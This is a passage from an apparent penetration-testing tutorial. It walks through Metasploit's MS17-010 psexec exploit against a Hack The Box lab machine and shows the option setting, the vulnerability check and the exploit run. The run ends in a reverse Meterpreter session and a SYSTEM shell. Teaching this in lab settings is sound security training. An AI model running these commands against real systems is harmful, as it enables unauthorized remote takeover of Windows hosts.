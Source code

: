 ```shell
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0

```

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.

```

As we can see, the server is indeed vulnerable. Note that not every exploit in the `Metasploit Framework` supports the `check` function. Finally, we can use the `run` or `exploit` command to run the exploit:

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM

```

As we can see, we have been able to gain admin access to the box and used the `shell` command to drop us into an interactive shell. These are basic examples of using `Metasploit` to exploit a vulnerability on a remote server. There are many retired boxes on the Hack The Box platform that are great for practicing Metasploit. Some of these include, but not limited to:

